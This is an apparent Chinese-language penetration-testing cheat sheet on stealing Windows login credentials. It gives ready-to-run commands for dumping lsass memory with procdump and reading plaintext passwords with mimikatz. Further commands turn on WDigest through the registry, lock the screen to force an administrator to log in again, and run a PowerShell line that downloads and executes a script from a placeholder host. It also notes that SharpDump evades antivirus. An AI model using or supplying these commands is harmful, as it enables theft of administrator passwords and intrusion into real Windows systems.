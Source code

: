 #tools 工具

https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
https://github.com/gentilkiwi/mimikatz
https://www.cmd5.com


(注:必须使用管理员权限)
procdump64如果不是使用管理员模式运行cmd会报错,

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。

当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:

Windows 7
Windows 8
Windows 8.1
Windows Server 2008
Windows Server 2012
Windows Server 2012R 2
原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码

利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。

抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

procdump64.exe导出lsass.dmp
procdump64.exe -accepteula -ma lsass.exe lsass.dmp


使用本地的mimikatz.exe读取lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"



我们可以通过修改注册表来让Wdigest Auth保存明文口令：
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f


开启Wdigest Auth

cmd

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

powershell

Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

meterpreter

reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
关闭Wdigest Auth

关闭命令如下：

cmd

reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

powershell

Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0

meterpreter

reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0


强制锁屏

在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。

强制锁屏，让管理员重新登录。

cmd

rundll32 user32.dll,LockWorkStation

powershell

Function Lock-WorkStation 
{
$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@
$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
$LockWorkStation::LockWorkStation() | Out-Null
}
Lock-WorkStation

powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://x.x.x.x/Lock-WorkStation.ps1');"
重新读取，可读到明文密码。



SharpDump+ mimikatz
项目地址：

https://github.com/GhostPack/SharpDump
编译生成的exe文件只有10KB左右，而且可过360。

用法：

1.在管理员权限下运行生成debug480.bin

修改debug480.bin为zip文件解压得到导出文件。

mimikatz加载dump文件

mimikatz.exe "sekurlsa::minidump debug480" "sekurlsa::logonPasswords full" "exit"


